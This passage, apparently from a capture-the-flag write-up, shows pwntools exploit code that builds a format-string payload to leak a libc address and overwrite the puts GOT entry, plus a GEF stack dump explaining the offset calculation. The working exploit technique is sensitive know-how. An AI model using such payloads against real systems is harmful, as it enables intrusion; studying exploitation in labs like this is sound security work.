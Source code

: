 
```python
payload  = b''
payload += b'%29$018p'
payload += fmtstr_payload(offset+1,{binary.got.puts:pop_sled}, write_size='int', numbwritten=18)
fmtstr_len = len(payload) # padding for next rop chain
payload += p64(binary.sym._start)

p.sendline(payload)

libc.address = int(p.recv(18).decode(),16) - libc.sym.__libc_start_main - 243
log.info('libc.address: ' + hex(libc.address))
```

The initial payload starts with a libc leak; `__libc_start_main+243` to be specific, this can be had by looking at the stack after setting a breakpoint just before `printf`:

```
0x00007fffffffe2d0│+0x0000: "AAAAAAAA"	 ← $rsp, $rdi
0x00007fffffffe2d8│+0x0008: "AAAAAAAA"
0x00007fffffffe2e0│+0x0010: "AAAAAAAA"
0x00007fffffffe2e8│+0x0018: "AAAAAAAA"
0x00007fffffffe2f0│+0x0020: "AAAAAAAA"
0x00007fffffffe2f8│+0x0028: "AAAAAAAA"
0x00007fffffffe300│+0x0030: "AAAAAAAA"
0x00007fffffffe308│+0x0038: "AAAAAAAA"
0x00007fffffffe310│+0x0040: "AAAAAAAA"
0x00007fffffffe318│+0x0048: "AAAAAAAA"
0x00007fffffffe320│+0x0050: "AAAAAAAA"
0x00007fffffffe328│+0x0058: "AAAAAAAA"
0x00007fffffffe330│+0x0060: "AAAAAAAA"
0x00007fffffffe338│+0x0068: "AAAAAAAA"
0x00007fffffffe340│+0x0070: "AAAAAAAA"
0x00007fffffffe348│+0x0078: "AAAAAAAA"
0x00007fffffffe350│+0x0080: "AAAAAAAA"
0x00007fffffffe358│+0x0088: "AAAAAAAA"
0x00007fffffffe360│+0x0090: "AAAAAAAA"
0x00007fffffffe368│+0x0098: 0x0041414141414141 ("AAAAAAA"?)
0x00007fffffffe370│+0x00a0: 0x00007fffffffe470  →  0x0000000000000001
0x00007fffffffe378│+0x00a8: 0x72b51f0db6502200
0x00007fffffffe380│+0x00b0: 0x0000000000000000	 ← $rbp
0x00007fffffffe388│+0x00b8: 0x00007ffff7de70b3  →  <__libc_start_main+243> mov edi, eax
```

If the offset of `6` is at the top of the stack, then counting down to `__libc_start_main+243` should land you at offset `29`, or be lazy and type in GDB/GEF:

```
gef➤  p/d 0xb8 / 8 + 6
$1 = 29
```

To leak this, our format-string starts with `%29$018p`.  This must be 8-bytes in length (stack aligned) and will output the value of the stack at offset `29` with exactly 18 characters (`018p`).
